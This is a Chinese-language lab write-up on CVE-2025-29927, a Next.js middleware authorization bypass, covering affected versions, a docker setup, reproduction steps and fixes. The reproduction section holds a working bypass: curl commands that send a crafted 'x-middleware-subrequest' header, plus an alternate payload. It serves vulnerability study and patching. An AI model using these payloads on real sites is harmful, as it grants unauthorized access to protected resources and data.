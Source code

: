 # Next.js 中间件鉴权绕过漏洞 CVE-2025-29927

## 漏洞描述

Next.js 是一个基于 React 的流行 Web 应用框架，提供服务器端渲染、静态网站生成和集成路由系统等功能。当使用中间件进行身份验证和授权时，Next.js 14.2.25 和 15.2.3 之前的版本存在授权绕过漏洞。

该漏洞允许攻击者通过操作 `x-middleware-subrequest` 请求头来绕过基于中间件的安全控制，从而可能获得对受保护资源和敏感数据的未授权访问。

参考链接：

- https://github.com/advisories/GHSA-f82v-jwr5-mffw
- https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware
- https://nvd.nist.gov/vuln/detail/CVE-2025-29927
- https://nextjs.org/blog/cve-2025-29927
- https://github.com/aydinnyunus/CVE-2025-29927

## 漏洞影响

```
Next.js 15.x < 15.2.3
Next.js 14.x < 14.2.25
Next.js 13.x < 13.5.9
```

## 环境搭建

Vulhub 执行以下命令启动一个基于 Next.js 15.2.2 的存在漏洞的应用：

```
docker compose up -d
```

应用启动后，访问 `http://your-ip:3000` 会被重定向到登录页面。输入默认凭据 `admin:password`，你可以登录成功并访问仪表盘。

![](images/Next.js%20中间件鉴权绕过漏洞%20CVE-2025-29927/image-20250324115148620.png)

## 漏洞复现

如果在没有合法凭据的情况下直接访问仪表盘，将会被重定向到登录页面：

```
curl -i http://your-ip:3000
```

```
GET / HTTP/1.1
Host: your-ip:3000
Cookie: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Accept: */*
Accept-Encoding: gzip, deflate
```

![](images/Next.js%20中间件鉴权绕过漏洞%20CVE-2025-29927/image-20250324115331074.png)

要利用此漏洞，可以在请求中添加 `x-middleware-subrequest` 请求头，其值为 `middleware:middleware:middleware:middleware:middleware`。Next.js 中间件会错误地处理此请求头并绕过身份验证检查：

```
curl -i -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" http://your-ip:3000
```

```
GET / HTTP/1.1
Host: your-ip:3000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Accept: */*
Accept-Encoding: gzip, deflate
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
```

![](images/Next.js%20中间件鉴权绕过漏洞%20CVE-2025-29927/image-20250324115502959.png)

可见，没有传入任何身份认证信息即可成功访问到仪表盘。

 如果上述 payload 不起作用，可以尝试：

```shell
x-middleware-subrequest: src/middleware:src/middleware:src/middleware:src/middleware:src/middleware
```

## 漏洞修复

已修复版本：

- 对于 Next.js 15.x 版本，此问题已在 `15.2.3` 中修复
- 对于 Next.js 14.x 版本，此问题已在 `14.2.25` 中修复
- 对于 Next.js 13.x 版本，此问题已在 `13.5.9` 中修复
- 对于 Next.js 12.x，此问题已在 `12.3.5` 中修复

如果修补到安全版本不可行，建议阻止包含 `x-middleware-subrequest` 头的外部用户请求。
